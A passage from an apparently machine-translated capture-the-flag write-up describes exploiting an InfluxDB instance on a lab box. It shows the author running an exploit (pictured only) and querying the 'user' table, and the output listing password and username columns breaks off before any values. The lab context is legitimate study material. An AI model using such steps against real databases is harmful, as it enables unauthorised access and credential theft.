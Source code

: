 # 利用涌入 b

我必须先安装 pip，因为这个 Kali 安装程序还没有它。之后，我安装了需求，所以现在我们可以运行利用:

![](img/276a2f0b187d29e1a5f8a73873d0e7ca.png)

InfluxDB 漏洞利用

漏洞成功了，我们已经连接到数据库。接下来的这一点花了我很长时间，但最终我发现这很有效:

```
[devzat] Insert query (exit to change db): select * from "user"
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
```